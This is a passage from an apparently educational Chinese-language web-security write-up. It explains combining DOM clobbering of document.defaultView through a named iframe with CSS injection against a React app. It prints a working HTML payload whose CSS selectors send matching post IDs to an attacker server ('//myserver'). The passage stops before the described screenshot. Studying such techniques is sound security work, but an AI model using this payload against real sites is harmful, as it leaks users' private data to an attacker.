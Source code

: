 
它最後是用 `window.location.pathname` 決定的，而重點是這個 `window` 是從 `document.defaultView` 來的，簡而言之就是 `document.defaultView.location.pathname`

這代表什麼呢？代表我們可以用 DOM clobbering 覆蓋它！

之前講到 DOM clobbering 有說過我們沒辦法覆蓋已經存在的 window 屬性，所以像 `window.location` 就無法蓋掉。可是 `document` 就不一樣了，我們是可以蓋掉 `document` 的。

如果在頁面上放了一個 `<iframe name=defaultView src="/home">`，那 `document.defaultView` 就會是這個 iframe 的 contentWindow，而這邊的 src 是同源的 `/home`，所以可以存取 `document.defaultView.location.pathname`，就拿到了 `/home` 頁面的 pathname，在 iframe 裡面渲染了 home 頁面的內容。

如此一來，就可以跟前面發現的 CSS injection 做結合，範例如下：

``` html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

介面會長這樣：
